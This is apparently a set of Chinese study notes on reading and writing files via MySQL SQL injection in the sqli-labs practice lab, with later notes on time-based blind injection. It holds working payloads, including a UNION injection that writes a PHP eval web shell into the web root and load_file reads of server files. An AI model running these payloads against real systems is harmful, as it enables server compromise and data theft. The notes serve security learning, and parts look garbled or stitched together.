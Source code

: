 SQL注入中的文件读写

以mysql为例

mysql读写文件有一个非常重要的前置条件：

show global variables like '%secure%'

查看mysql全局变量的配置，当输入以上命令后，结果

secure_file_priv = 空的时候 ，任意读写

secure_file_priv = 某个路径的时候，只能在规定的那个路径下读写

secure_file_priv = NULL 不能读写

要修改配置在数据库配置文件中修改
读：

load_file('filename') filename就是指定读取的文件

以sqlilab的第1关为例：

-1' union select ,1,(Select load_file('c:/phpstudy/www/1.txt')),3%23

读取1.txt里面的内容
写：

select 'content' into outfile 'filename' : 

content指的是我们要写的内容，filename是要保存的文件名

以sqlilab的第1关为例：

-1' union select 1,2,"?php@eval($_GET['test']);?" into outfile 'c:/phpstudy/www/test123.php' %23

把一句话木马写到/www/test123.php

读写的条件：

1、secure_file_priv 的值不能是null

2、要知道读写的绝对路径

Mysql文件读写函数

举例：select load_file(’/etc/hosts’)

上面的例子是有条件限制的：

1、必须有权限读取并且文件必须完全可读。
and (select count() from mysql.user)>0 /如果结果返回正常，说明具有读写权限./

and (select count() from mysql.user)>0 /* 返回错误，应该是管理员给数据库账户降权了*/

2、欲读取文件必须在服务器上

3、必须指定文件完整的路径

4、欲读取文件必须小于max_allowed_packet

　　如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限。

在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到administrators才能访问的文件，
users就不能
# lv8
- 经过尝试发现与lv5完全一致,单引号闭合
# lv9
- 无论怎么闭合都显示you are in，就只能用sleep函数了，经过尝试
> 1' and sleep(5)--+
- 有效，所以我们就可以构造查询语句
> 1' and if(length(database())=8,sleep(5),1)--+